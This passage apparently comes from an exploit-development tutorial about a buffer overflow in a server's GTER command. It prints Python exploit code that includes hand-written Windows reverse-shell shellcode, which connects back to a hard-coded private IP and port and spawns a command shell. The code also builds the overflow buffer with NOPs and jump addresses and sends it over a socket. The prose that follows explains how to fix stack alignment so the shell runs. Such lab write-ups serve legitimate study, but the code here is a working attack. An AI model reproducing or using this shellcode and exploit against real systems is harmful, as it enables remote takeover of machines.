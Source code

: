 ```python
revshell  = "\x31\xc0\x50\x50\x50\x31\xdb\xb3\x06\x53\x40\x50\x40\x50\xbb\x30\x97\x4e\x75\x31\xc0\xff\xd3" 
revshell += "\x96\x68\xc0\xa8\x2f\x80\x66\x68\x11\x5c\x31\xdb\x80\xc3\x02\x66\x53\x89\xe2\x6a\x10\x52\x56\xbb\xe0" 
revshell += "\x5e\x4e\x75\xff\xd3\xba\x63\x63\x6d\x64\xc1\xea\x08\x52\x89\xe1\x31\xd2\x83\xec\x10\x89\xe3\x56\x56" 
revshell += "\x56\x52\x52\x31\xc0\x40\xc1\xc0\x08\x50\x52\x52\x52\x52\x52\x52\x52\x52\x52\x52\x31\xc0\x04\x2c\x50"
revshell += "\x89\xe0\x53\x50\x52\x52\x52\x31\xc0\x40\x50\x52\x52\x51\x52\xbb\x30\x66\xf3\x74\xff\xd3"


crash = "\x90" * 29 + revshell + "\x90" * 2 + jmp_esp + short_jmp + "\x43" * 500

buffer = "GTER "
buffer += crash
buffer += "\r\n"

s.connect((host, port))
s.send(buffer)
s.recv(1024)
s.close()
print len(revshell)
```

### Not so fast....

However if we run this no shell comes. If we take a look in the debugger we can see it's a stack alignment issue.

![stack](/img/gter-stack.png)

ESP is actually pointing to the location of our short negative JMP. 

![jmp](/img/gter-jmp.png)

Which means if we start pushing instructions to the stack we will start overwriting our shellcode above.

To work around this take a look at the EAX register, it's value currently points to an address much lower than ESP and actually sits well above our shellcode. In fact it points to the very beginning of the GTER request. So what we can do is PUSH the value of EAX to the stack (yes we will overwrite our negative JMP but it won't matter at this point since we've already taken the JMP!) and then we'll POP that value directly into ESP.
